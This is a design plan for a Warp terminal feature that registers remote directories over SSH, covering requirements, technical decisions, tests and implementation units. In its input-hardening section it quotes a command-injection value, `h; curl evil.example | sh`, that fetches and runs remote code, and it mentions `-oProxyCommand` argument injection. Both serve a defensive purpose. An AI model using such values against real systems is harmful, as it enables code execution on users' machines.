



# Remote Repository or Folder over SSH - Plan

## Goal Capsule

- **Objective:** Extend repo mode so a directory on another machine can be registered over SSH and behave like a local entry: one row in the Repositories section, its own tab group, and tabs that connect and land in the remote path without the user retyping the SSH invocation.
- **Product authority:** This plan's Product Contract (brainstorm synthesis, confirmed). Owner: Vinh Nguyen, sole user and maintainer of the patched build.
- **Builds on:** `docs/plans/2026-07-19-001-feat-repo-mode-sidebar-plan.md` — the local registry, the Repositories section, tab-group binding, and the upgradeability constraint (its R9 glue inventory) all carry forward. This plan reuses that machinery and adds remote entries on top; it introduces no new persistence schema.
- **Execution profile:** Implement units in dependency order (U1 → U2 ∥ U3 → U4 → U5 ∥ U6 → U7 → U8). Everything rides `FeatureFlag::RepoMode`; with the flag off the app stays identical to stock Warp at every unit boundary.
- **Stop conditions:** Surface as a blocker anything that would require editing upstream files beyond the glue inventory below (breaks R18), any schema migration (the design's core claim is zero migration — if a migration becomes necessary, stop and amend KTD1), or any conflict with the Product Contract.
- **Open blockers:** None. Two execution-time unknowns (OQ1, OQ2) are non-blocking and resolved at implementation.

---

## Product Contract

Product Contract preservation: unchanged. All R/F/AE IDs and text carried verbatim from the brainstorm; planning added Planning Contract, Implementation Units, Verification Contract, and Definition of Done only. The two candidate telemetry events were a planning-introduced HOW detail (no R-number) and are **dropped** (SG1 resolved), which does not touch the Product Contract. OQ1 reframed as an execution-time confirmation and OQ2 as an execution-time unknown (see Open Questions) rather than product blockers.

### Summary

Add "Remote Repository or Folder…" to repo mode: a form captures an SSH target plus a remote path, an add-time probe confirms the target and classifies it, and the entry then lives in the Repositories section as a peer of local entries with its own tab group.

### Problem Frame

The user works on machines that have no SSH config alias, so every session starts by retyping `ssh -i <key> -p <port> user@ip` and then `cd`-ing to the project. That string is long, easy to mistype, and identical every time. Repo mode already removed the equivalent friction for local directories — a registered folder is one click and a tab lands in the right place — but its registry is local-only by construction: paths are canonicalized against the local filesystem, entry kind comes from a `.git` probe on disk, dead entries are detected with an existence check, and the branch badge reads `.git/HEAD`.

Supacode solves this with a "Connect to Remote Host" form (Server / Port / User / Path) whose entries sit in the same sidebar as local repos. The user wants that inside Warp, where the terminal already lives, rather than switching apps to get it.

Warp is not starting from zero here: it has an SSH wrapper that warpifies remote shells, a raw `ssh` command primitive with timeout, and a remote-path type family. The gap is a registry entry that can describe a machine, and a sidebar that treats such an entry as first class.

### Key Decisions

- **Probe with plain SSH, not the remote-server handshake.** Add-time validation runs one bounded SSH command against the host, the same shape supacode uses. This keeps the feature working on hosts where a remote helper binary cannot be installed, and avoids depending on a connected session existing before an entry can be added.
- **Encode the machine into the entry key rather than widening the registry schema.** A remote entry is identified by a self-describing target string, so the existing single-column registry holds local and remote entries in one list and no migration is required. Supacode uses the same trick, which also guarantees a remote key can never collide with a local absolute path.
- **The connection target is stored; the runtime host identity is not.** Warp assigns a host identifier only after a remote handshake, and that identifier is documented as a runtime deduplication key. Persistence stores what the user typed.
- **Entries are flat, one connection per entry.** No separate Host concept and no host-scoped grouping. Registering a second directory on the same machine means entering the connection again — accepted, because the user works out of one main directory per machine.
- **Grouping rides the tab-group binding, not the working directory.** Repo mode partitions tabs by their live local cwd, which a remote session does not have. Tabs opened from a remote entry are bound to that entry's group at creation and stay there.

### Requirements

**Entry and form**

- R1. An "Add Remote Repository or Folder…" action registers a directory on another machine as a registry entry, peer to local entries. The existing single "+ Add" control becomes a menu offering the local and remote actions.
- R2. The form collects server, port (defaults to 22), user, identity file, and remote path. Identity file is a field because the target hosts are addressed by address and key rather than by an SSH config alias.
- R3. `~` in the remote path is expanded on the host at add time, and the expanded path is what the entry stores.
- R4. A remote entry is identified by its full connection target plus path, so the same path on two machines — and a remote path that matches a local one — are distinct entries.
- R5. Remote entries reuse the existing registry behavior for removal, recency ordering, and persistence across restarts.

**Validation and display**

- R6. Adding an entry probes the host over SSH under a wall-clock timeout. A stalled or unreachable host fails the probe rather than hanging.
- R7. On probe failure the form stays open and names the reason; nothing is registered.
- R8. The probe classifies the target as repository or folder, and reports the current branch when it is a repository.
- R9. The row appears immediately in a pending state while the probe runs, and resolves in place when the probe returns.
- R10. A remote row is distinguishable from a local row at a glance and shows which machine it points at.
- R11. Remote entries are not polled for liveness. Displayed state comes from the last probe; a stale entry is corrected by the next probe or by opening a tab, not by a background check.

**Tabs and grouping**

- R12. Selecting a remote entry opens a tab that connects to the host and ends up in the entry's remote path. *Amended 2026-07-28: the connect half always works; the "ends up in the remote path" half is conditional on the `warpify.ssh.enable_ssh_warpification` setting, and fails silently when it is off. Stated unconditionally here, so this is a defect to fix rather than a scope reduction — see amended KTD7 for the mechanism and the remediation plan for the fix.*
- R13. Tabs opened from a remote entry stay warpified — prompt, blocks, and remote session identity behave as they do when the user runs `ssh` by hand today.
- R14. A tab opened from a remote entry belongs to that entry's tab group, and selecting the entry filters the tab UI to that group exactly as a local entry does.
- R15. An SSH session the user starts by typing `ssh` in a terminal does not join any entry's group.

**Compatibility**

- R16. Remote entries are gated behind the same local repo-mode feature flag; with the flag off the app stays visually and behaviorally identical to stock Warp.
- R17. Open Folder in IDE stays disabled for remote sessions, with its existing explanatory tooltip.
- R18. New logic stays additive and confined to repo mode's declared glue inventory plus the add-menu change, so rebasing the patch branch onto upstream master stays routine. *Amended 2026-07-28: held, with one off-inventory line — `app/src/lib.rs:1974`, wiring the remote-tab open path — disclosed in the U8 audit commit. Note that the repo-mode plan's own R9 inventory, which this requirement defers to, has since been reconciled against the shipped diff and is wider than it was when this plan was written; see the amendment there.*



### Key Flows

- F1. Add a remote entry
  - **Trigger:** User picks "Remote Repository or Folder…" from the add menu.
  - **Steps:** Form collects the connection and path; the probe runs under a timeout; the row appears pending and resolves to repository or folder; the entry persists.
  - **Covers:** R1, R2, R3, R4, R6, R8, R9
- F2. Probe fails
  - **Trigger:** The host is unreachable, the key is rejected, or the path does not exist.
  - **Steps:** The form stays open with the reason; nothing is registered; the user corrects a field and retries.
  - **Covers:** R6, R7
- F3. Work on the remote entry
  - **Trigger:** User selects the remote row.
  - **Steps:** A tab connects to the host and lands in the entry's path; the tab joins the entry's group; the tab UI filters to that group.
  - **Covers:** R12, R13, R14
- F4. Restart
  - **Trigger:** Quit and relaunch Warp.
  - **Steps:** The remote entry is restored from the registry with its stored connection; its tab group and the current selection restore as for local entries; no probe runs until the entry is used.
  - **Covers:** R5, R11

### Acceptance Examples

- AE1. **Covers R4.** Given `/srv/app` is registered on two different machines, when both are added, then two separate rows exist and neither replaces the other.
- AE2. **Covers R4.** Given `/srv/app` also exists on the local machine and is registered locally, when the remote entry for the same path is added, then both rows coexist.
- AE3. **Covers R6, R7.** Given a host that accepts connections but never responds, when the entry is added, then the probe ends at the timeout, the form stays open with the reason, and no row is left behind.
- AE4. **Covers R8.** Given the remote path is a plain directory with no git metadata, when the probe resolves, then the row renders as a folder with no branch shown and nothing errors.
- AE5. **Covers R13.** Given a tab opened from a remote entry, when the remote shell is ready, then the prompt and blocks behave as in a hand-typed warpified SSH session.
- AE6. **Covers R15.** Given the user types `ssh` by hand to the same machine and path, when that session starts, then it appears outside every entry group.
- AE7. **Covers R16.** Given the repo-mode flag is off, when Warp launches, then no remote affordance exists anywhere in the UI.
- AE8. **Covers R17.** Given a remote tab is active, when the toolbar renders, then Open Folder in IDE is disabled and its tooltip explains why.

### Scope Boundaries

**Deferred for later**

- Clone Repository — the third item in supacode's add menu. Registering an existing directory comes first.
- Worktree rows listed under a repository, remote or local — already deferred by the repo-mode plan.
- A Host concept: multiple directories per machine sharing one stored connection, and host-level grouping in the sidebar.
- Password authentication, jump hosts, and agent forwarding.
- A live connection indicator, background liveness polling, and reconnect state in the sidebar.
- Remote codebase indexing, remote agent execution, and anything that needs the remote-server binary installed on the host.
- Editing an existing entry's connection fields. v1 removes and re-adds.

**Outside this product's identity**

- Copying supacode's visual styling — the feature keeps Warp's look.
- Forking away from upstream master; upgradeability stays a core requirement.

### Dependencies / Assumptions

Verified against this tree:

- Warpification is skipped when `ssh` receives more than one positional argument (`app/assets/bundled/bootstrap/bash_body.sh:997`) and when `ssh -G` reports a configured `RemoteCommand` (`:1017`). Landing in the remote path therefore cannot ride the SSH command line or an SSH config remote command without giving up R13.
- `-i` and `-p` are parsed as options and preserve interactive detection (`app/assets/bundled/bootstrap/bash_body.sh:975`), so the stored identity file and port are safe to pass on the interactive `ssh` line.
- A bounded SSH command primitive already exists — `run_ssh_command(socket_path, remote_command, timeout)` in `crates/remote_server/src/ssh.rs:134` — and it forces `PasswordAuthentication=no` (`:39`). This is why password-auth hosts are out of scope rather than merely unsupported in v1.
- The registry is the `projects` table keyed by `path` (`crates/persistence/src/schema.rs:337`), which is why a self-describing remote key avoids a migration. `ProjectManagementModel::upsert_project` canonicalizes with `dunce::canonicalize` (`app/src/projects.rs:56`) — a remote key must skip that.
- `HostId` is assigned by the remote server at handshake and documented as a runtime deduplication key (`crates/warp_util/src/host_id.rs:11`), so it cannot back persistence.
- Repo mode's helpers assume a local filesystem: path canonicalization and `.git` classification (`crates/repo_mode/src/entry.rs`), branch read from `.git/HEAD` (`app/src/workspace/view/repo_sidebar.rs:518`), and tab partitioning from the local cwd (`app/src/workspace/view/repo_mode_model.rs:526`, `:552`). Each needs a remote branch or an explicit skip.
- A remote path type family and a local/remote repository identifier already exist (`crates/warp_util/src/remote_path.rs`, `crates/repo_metadata/src/repository_identifier.rs:9`).
- The remote shell announces readiness to the app: the SSH helper injects an init script whose hook surfaces as `ModelEvent::SshInitShell` (`app/src/terminal/writeable_pty/remote_server_controller.rs:95`, `app/src/terminal/model_events.rs:71`), and existing remote work already keys off that moment (`app/src/workspace/view.rs:17632`). A post-connect path change has a signal to wait on.

Assumed, not verified:

- Windows is out of scope for the remote entry, matching the platform gate already applied to remote-server work.

---

## Planning Contract

### Key Technical Decisions

- **KTD1 — Remote entries ride the existing `projects` table via a self-describing key; no new migration.** Encode the connection as a URI-shaped key `ssh://<user>@<host>:<port><remote-path>?i=<identity>`. The key starts with `ssh://`, so it can never collide with a local absolute path (which starts with `/`), satisfying R4/AE1/AE2. It is stored verbatim in `projects.path`; the group binding rides the existing nullable `tab_groups.repo_root` column (already added by the repo-mode plan). **This is the design's load-bearing claim: zero schema change.** If implementation reveals a field that cannot round-trip through this key, stop and amend rather than adding a migration.
  - **Every free-text segment is percent-encoded, and the parse decodes symmetrically.** The remote path is not URI-safe: a Unix path may contain `?`, `#`, or `%`, and R3 stores whatever the host's `~`-expansion returns. A raw path would make `parse_remote_key` split on the wrong `?` and silently yield a wrong path and wrong identity. Percent-encode the path and identity segments in `format_remote_key`; bracket IPv6 hosts (`[::1]`) so the host `:` cannot be confused with the `:<port>` delimiter. This is correctness, not polish — an un-encoded delimiter ships as a wrong connection at runtime, not a caught stop-condition.
- **KTD2 — Remote identity and classification live in the repo-mode domain, pure and unit-tested.** Add `format_remote_key` / `parse_remote_key` and an `is_remote_key` discriminator to `crates/repo_mode/src/entry.rs` (or the in-app module per that crate's existing size gate). The existing local-fs rules — `canonicalize_repo_path`, `classify_entry_kind` (`.git` probe), `is_dead_path` — are gated to local keys and never run for remote keys. Remote kind (repo vs folder), branch, and reachability come from the probe, not the filesystem.
- **KTD3 — `upsert_project` must not canonicalize a remote key.** `dunce::canonicalize` (`app/src/projects.rs:56`) resolves against the local filesystem and would corrupt or reject a remote key. Add a remote-aware branch (guard in `upsert_project`, or a sibling `upsert_remote_project`) that stores the key as-is when `is_remote_key` holds. Removal already keys on the raw `path` and needs no change.
- **KTD4 — "+ Add" becomes a 2-item menu using the existing sidebar menu reuse, not a toolbar split-button.** The repo sidebar already opens `tab_right_click_menu` at a pointer position for its row context menu and palette picker (`open_repo_mode_picker_menu`, `app/src/workspace/view/repo_mode_model.rs:403-462`). Build the add menu the same way: on "+ Add" click, set items `["Local Repository or Folder…", "Remote Repository or Folder…"]` via `MenuItemFields::new(label).with_on_select_action(action).into_item()`. The click position is already available in `render_header_button`'s handler. This keeps the affordance native to the sidebar (rejects the `CompactibleSplitActionButton` split-button used by the toolbar's Open Folder in IDE).
- **KTD5 — The connection form is a modal body view following `NewWorktreeModal` / `CustomEndpointModal`.** No shared form component exists — every modal hand-assembles `Text` label + `ChildView(EditorView::single_line)` + optional error `Text` + submit/cancel buttons. Mirror that: a `RemoteConnectionModal` body with five `EditorView` fields, per-field validation computed in `render()` (port numeric with a 22 default, required server/user/path, identity-file existence check), a disabled submit until valid, and submit emitted as a view event. Mount it on `Workspace` exactly as `new_worktree_modal` is (`ModalViewState<Modal<…>>` field, `build_*` constructor, open from the action arm, render in the workspace stack, body-event handler). Reuse existing `ActionButtonTheme` impls unchanged (the single gui-ui-guideline that applies).
- **KTD6 — The add-time probe is one bounded `ssh` subprocess spawned from the UI layer, delivering its script over stdin.** On submit, `ctx.spawn` a future that runs `ssh` (via the async `Command` pattern at `app/src/remote_server/ssh_transport.rs:241`) with `-i <identity> -p <port> -o BatchMode=yes -o ConnectTimeout=<n> -- <user>@<host>`, wrapped in `.with_timeout(Duration)` (`crates/warpui_core/src/async/mod.rs:114`). The probe **script** — resolve `~`, test existence, classify git-or-folder, read branch — is piped to `bash -s` over stdin following `run_ssh_script` (`crates/remote_server/src/ssh.rs:164`), **not** passed as a quoted `ssh … '<cmd>'` argument. That precedent exists in the very crate this KTD cites precisely because passing shell constructs as an ssh argument requires fragile escaping, and `bash -s` also forces bash regardless of the host's login shell (a fish/csh login shell would choke on an arg-form probe). *Amended 2026-07-28: the shipped probe pipes to `sh -s`, not `bash -s`, and the script is written strictly POSIX (verified under both `/bin/sh` and `dash`, including the `case "$p" in '~/'*) p="$HOME/${p#\~/}"` expansion). This is the path the Assumptions section already allowed for, taken up front rather than reactively: `sh` is the one shell every target has, and the stdin delivery — the part of this KTD that actually matters — is unchanged. The "forces bash regardless of the host's login shell" rationale still holds; it is `sh` doing the forcing.* One round-trip answers R3+R8. The spawn callback lands back on the modal/model with `&mut Self`: success → upsert the entry (KTD3) and resolve the pending row; failure → keep the modal open with the reason (R7). Probe results (kind, branch, reachability) live in an ephemeral runtime cache keyed by the remote key, never persisted (R11). Reprobe fires on select.
  - **Host-key policy: rely on the user's `known_hosts`, never weaken it.** `StrictHostKeyChecking` stays at its secure default; the probe must never set `no`/`accept-new` (silent key acceptance is a MITM vector). An unknown host fails the probe under `BatchMode` and surfaces as a distinct, actionable reason (see the BatchMode note below), not an auto-accepted key.
  - **The `BatchMode` probe is strictly less capable than the tab it validates, by design.** `BatchMode=yes` disables the password prompt (R6) but also the passphrase prompt on an encrypted key and the unknown-host prompt. So a host not yet in `known_hosts`, or a passphrase-protected key with no loaded agent, fails the probe even though the later interactive tab (KTD7, no `BatchMode`) would prompt and succeed. Map that failure class to a distinct R7 reason — "connect once by hand first (unknown host or locked key)" — rather than a generic "unreachable/rejected", so the user is not stuck with a false-negative add they cannot resolve from the form.
- **KTD7 — Landing in the remote path uses a one-shot readiness subscription, not the pending-command queue.** Open the tab, run the interactive `ssh -i <identity> -p <port> -- <user>@<host>` line (a single positional destination with option flags only — stays warpified per the bootstrap constraints; no `cd` appended, which would add a second positional and defeat warpification), and subscribe once to `DetectedEndOfSshLogin(SshLoginStatus::ReadyToWarpify)` on the pane's `ModelEventDispatcher` (`app/src/terminal/model_events.rs:437-472`; already consumed by warpify logic at `app/src/workspace/view.rs:25639`) to run `cd <remote-path>` in the remote shell once it warpifies (R12/R13). **The pending-command queue was the original design and is rejected:** `execute_pending_command` fires on `BootstrapPrecmdDone`, which the *local* shell emits first, and the only existing caller of `set_pending_command_queue` (`app/src/pane_group/mod.rs:1393`) relies on exactly that to run commands in the *local* shell — so a queued `cd` would most likely run before `ssh` connects and land in the wrong shell. The readiness subscription is keyed to the remote transition specifically, so it is the primary, not a fallback. *Amended 2026-07-28 — the shipped mechanism is different and this KTD's own rejection did not survive.* `land_in_remote_path_when_connected` subscribes to `SessionsEvent::SessionBootstrapped` filtered on `BootstrapSessionType::WarpifiedRemote`, and delivers the `cd` through `execute_command_or_set_pending` — i.e. `set_pending_command` + `execute_pending_command`, the queue this KTD rejected. The rejection's reasoning is answered rather than ignored: the failure mode described above is a `cd` firing on the *local* shell's `BootstrapPrecmdDone`, and gating on a `WarpifiedRemote` bootstrap event means the queue is only ever primed once the remote session exists. It works in practice. Three consequences to record. (1) OQ1's Definition-of-Done item — "confirmed during smoke: the one-shot `ReadyToWarpify` subscription fires once" — is written against a mechanism that was not built and cannot be verified as stated; it should be restated against `SessionBootstrapped(WarpifiedRemote)` or dropped. (2) U7's "drop the subscription when it fires" is not implemented: a captured `landed` bool no-ops after the first fire, but the subscription stays registered for the tab's lifetime. (3) The landing is silently conditional on the `warpify.ssh.enable_ssh_warpification` setting — with it off, no `WarpifiedRemote` session is ever created, so the tab connects and simply never `cd`s, with nothing shown to the user. R12 is stated unconditionally, so that gap is a defect, not something this amendment ratifies; it is tracked in the remediation plan.
- **KTD8 — Grouping reuses `create_repo_mode_group_with_tab` with `repo_root` set to the remote key.** The existing open-path (`app/src/workspace/view/repo_mode_model.rs:321-369`) already creates/reuses a `TabGroup` bound by `repo_root` and assigns the new tab's `group_id`. Setting `repo_root` to the remote key gives remote entries the same render-level filtering as local ones (R14). Because only entry-opened tabs receive a `group_id`, a hand-typed `ssh` tab is ungrouped automatically (R15) with no extra code — the cwd-based partition never runs for it.
- **KTD9 — Remote reuses `FeatureFlag::RepoMode`; no new flag or cargo feature.** Every remote entry point is already inside repo-mode-gated code (the sidebar section, the add action, the model). With the flag off the whole section is absent, so the remote affordances vanish with it (R16/AE7). No `crates/warp_features` or `app/src/features.rs` edit.
- **KTD10 — Every user-entered field is treated as untrusted input crossing into a shell and into `ssh`'s argv.** The five form fields feed three sinks: the probe subprocess, the interactive `ssh` line, and the remote `cd`. Harden all three: (a) build every `ssh` invocation as **argv, never a shell string**, and prefix the destination with `--` so a `server`/`user` beginning with `-` cannot become argument injection (e.g. `-oProxyCommand=…`, which `BatchMode` does not stop); reject any server/user beginning with `-` at validation time. (b) The probe script goes over stdin (KTD6), so its constructs never touch an ssh argument. (c) **Shell-quote the remote path everywhere it enters a shell** — the probe script and the `cd` — and **shell-quote the identity path on the interactive `ssh` line**: an unquoted space in the identity path word-splits into a second positional, which trips the warpification gate (`bash_body.sh:998`, `${#ARGS[@]} -ne 1`) and *silently* drops warpification (R13 lost, no error). U1 owns the quoting/encoding helpers; U5/U7 own applying them; tests cover metacharacter- and space-bearing paths. The realistic trigger is a connection string or path pasted from an untrusted README, not malice — but the failure is silent, so quoting is not optional. *Amended 2026-07-28 — clause (c) was written too narrowly and the implementation inherited the gap.* By naming only the identity path on the interactive `ssh` line, and framing the whole hazard as word-splitting costing warpification, it missed that the interactive line is not argv at all: `remote_ssh_command` returns a **string typed into the local shell**, so an unquoted field there is local command execution, not a lost feature. The destination shipped unquoted while the identity beside it was quoted, and `server = "h; curl evil.example | sh"` ran on the user's machine — reachable during the probe window and after a restart, because the pending entry is persisted before the probe resolves. Fixed 2026-07-28 (`shell_quote` on the destination, plus a charset allowlist on the server and user fields as defense in depth); quoting is safe for warpification because `is_interactive_ssh_session` counts positionals after the shell word-splits and strips quotes. Clause (c) now reads: **shell-quote every user-entered field on the interactive `ssh` line, not a named subset** — the line is a shell string, so the default is quote, and any exception needs a written reason. Clauses (a) and (b) held as written: the probe is real argv with a `--` fence, and the script goes over stdin.

### High-Level Technical Design

Component topology — new vs. reused, and where the glue lands:



Add + probe sequence (F1/F2):

```mermaid
sequenceDiagram
  participant U as User
  participant M as RemoteConnectionModal
  participant Mod as RepoModeModel
  participant S as ssh subprocess
  U->>M: pick "Remote…", fill fields, Submit
  M->>Mod: submit event (server, port, user, identity, path)
  Mod->>Mod: upsert pending row (R9), format remote key (KTD2)
  Mod->>S: spawn ssh -i -p BatchMode probe cmd, with_timeout (KTD6)
  alt success
    S-->>Mod: expanded path + git/folder + branch
    Mod->>Mod: resolve row (kind/branch cached), persist entry, close modal
  else failure / timeout
    S-->>Mod: error or TimeoutError
    Mod->>M: keep open, show reason (R7); drop pending row (AE3)
  end
```

Open-remote-tab sequence (F3):



### Assumptions

- ~~`DetectedEndOfSshLogin(SshLoginStatus::ReadyToWarpify)` fires once per remote login on the pane's `ModelEventDispatcher` and is the correct moment to run `cd` in the warpified remote shell (KTD7). OQ1 confirms this end-to-end during smoke.~~ *Amended 2026-07-28: superseded — the shipped landing signal is `SessionsEvent::SessionBootstrapped` filtered on `BootstrapSessionType::WarpifiedRemote`. See amended KTD7, including what that does to OQ1.*
- ~~The `bash -s`-over-stdin probe (KTD6) requires a remote host with `bash` available on `PATH`.~~ *Amended 2026-07-28: the probe uses `sh -s` and the script is POSIX, so no `bash` requirement remains. See amended KTD6.* If a target only has a POSIX `sh`, the probe script must stay POSIX-portable; treated as an implementation detail within U5, not a scope change.
- The `BatchMode` probe requires the host already in `known_hosts` and a passphrase-free or agent-loaded key. Hosts failing only that constraint are still openable via the interactive tab; the add-time probe maps the case to a distinct "connect once by hand first" reason (KTD6).
- The `crates/repo_mode` size gate from the repo-mode plan (fold into an in-app module if domain logic stays small) still applies; adding remote key helpers does not by itself force the standalone crate.

### Glue inventory (additive to the repo-mode plan's R9 inventory)

| File | Touch |
|---|---|
| `crates/repo_mode/src/entry.rs` (+ `entry_tests.rs`) | Remote key format/parse (percent-encode + IPv6 bracket), `is_remote_key`, shell-quote helpers, gate local-fs rules to local keys |
| `app/src/workspace/view/repo_mode_model.rs` (+ tests) | Remote-aware list entries, add-remote handler, probe spawn (`run_ssh_script`), open-remote-tab + `ReadyToWarpify` subscription, reprobe, ephemeral probe cache |
| `app/src/workspace/view/repo_sidebar.rs` | "+ Add" opens a 2-item menu instead of firing one action; remote-row rendering (distinct look + host label) |
| `app/src/workspace/view/remote_connection_modal.rs` (new) + `remote_connection_modal_tests.rs` (new) | The 5-field form body view |
| `app/src/workspace/view.rs` | Mount `RemoteConnectionModal` (field, `build_*`, action arm, render, body-event handler) mirroring `new_worktree_modal` |
| `app/src/workspace/action.rs` | `AddRemoteRepositoryOrFolder` variant + classification-match arm |
| `app/src/projects.rs` | Skip `dunce::canonicalize` for remote keys on upsert (KTD3) |

No migration file. No `crates/warp_features` / `app/src/features.rs` edit (KTD9). No `app/src/server/telemetry/events.rs` edit — the two candidate telemetry events were **dropped** (SG1 resolved) to keep the rebase surface minimal.

---

## Implementation Units

### U1. Remote key identity and classification in the repo-mode domain

- **Goal:** Pure, testable helpers to format, parse, and discriminate a remote entry key, and to gate the local-filesystem rules so they never run for remote keys.
- **Requirements:** R4 (distinct identity), R2/R3 (fields the key must carry), foundation for R8/R10.
- **Dependencies:** none.
- **Files:** `crates/repo_mode/src/entry.rs`, `crates/repo_mode/src/entry_tests.rs`.
- **Approach:** Add `format_remote_key(server, port, user, identity, remote_path) -> String` producing `ssh://<user>@<host>:<port><path>?i=<identity>`, where every free-text segment (user, path, identity) is **percent-encoded** and an IPv6 host is bracketed (`[::1]`) so no path/identity byte can collide with the `:`/`?`/`#`/`@` delimiters or the `:port` colon (KTD1). Add `parse_remote_key(&str) -> Option<RemoteTarget>` that percent-decodes the segments back to the original five components. Add `is_remote_key(&str) -> bool` (prefix `ssh://`). Add a `shell_quote(&str) -> String` helper (single-quote wrap, `'\''` escaping) used by U5/U7 when a segment reaches a command line (KTD10) — kept here so it is unit-testable next to the key helpers. Guard `canonicalize_repo_path`, `classify_entry_kind`, and `is_dead_path` so callers can branch on locality; remote keys are never canonicalized and never `.git`-probed. Display name for a remote entry is the remote path's last component, falling back to the host.
- **Patterns to follow:** existing pure helpers in `entry.rs` and their `entry_tests.rs`.
- **Test scenarios:**
  - Covers R4: two keys differing only in host are distinct; a remote key and a local absolute path with the same trailing path are distinct (AE1, AE2).
  - Round-trip: `parse_remote_key(format_remote_key(...))` returns the original components, including an identity path containing spaces and a remote path containing a space.
  - Reserved-delimiter round-trip (KTD1): a remote path or identity containing `?`, `#`, `%`, `@`, or `:` round-trips exactly through percent-encoding — the raw byte never reaches the parser as a delimiter.
  - IPv6 host (KTD1): `::1` formats bracketed as `[::1]` and parses back to `::1`, kept distinct from the `:port` colon; a bracketed key with a port parses host and port correctly.
  - `shell_quote` (KTD10): a path with a space, a single quote, and a `$` produces a string that a shell parses back to the exact input (assert the wrapped/escaped form).
  - `is_remote_key` is true for `ssh://…`, false for `/abs/local/path` and for a Windows-style path.
  - Default port: a key formatted with port 22 parses back to 22; a key formatted with a non-default port preserves it.
  - Display name: `ssh://u@h:22/srv/app` → `app`; `ssh://u@h:22/` (no leaf) → falls back to host.
- **Verification:** `cargo nextest run -p repo_mode` green.

### U2. Registry bridge: remote-aware upsert, list, restore

- **Goal:** Remote entries persist in `projects` without canonicalization, list alongside local entries, and restore across restart without probing.
- **Requirements:** R5, R11; supports R4.
- **Dependencies:** U1.
- **Files:** `app/src/projects.rs`, `app/src/workspace/view/repo_mode_model.rs` (+ `repo_mode_model_tests.rs`).
- **Approach:** In `upsert_project`, branch on `is_remote_key`: store the key verbatim when remote, canonicalize only when local (KTD3). In `RepoModeModel`, when building list entries from `all_projects`, detect remote keys and build a remote-flavored `RepoModeListEntry` (skip the fs kind/liveness cache; kind/branch/reachability come from the ephemeral probe cache, empty until first probe — pending until then). Removal keys on the raw path and is unchanged. On restart the entry lists from the registry; no probe runs (R11).
- **Patterns to follow:** existing `upsert_project`/`remove_project`/`all_projects` (`app/src/projects.rs:56-112`); existing list-building in `repo_mode_model.rs`.
- **Test scenarios:**
  - Covers R5: upserting a remote key stores it unchanged (not canonicalized); a second upsert of the same key bumps recency without duplicating.
  - Covers AE1/AE2: two remote keys and a same-path local entry coexist in the listing.
  - Covers R11: a listed remote entry with an empty probe cache renders pending, and building the list triggers no ssh call.
  - Remove: removing a remote entry drops it from the listing and the registry.
- **Verification:** app view/model tests green under `override_enabled(FeatureFlag::RepoMode)`.

### U3. Add menu and the remote-add action

- **Goal:** "+ Add" opens a 2-item menu; selecting the remote item dispatches a new action that opens the connection form.
- **Requirements:** R1.
- **Dependencies:** none (menu + action wiring needs no key helpers). Parallel with U1/U2.
- **Files:** `app/src/workspace/view/repo_sidebar.rs`, `app/src/workspace/action.rs`, `app/src/workspace/view.rs`.
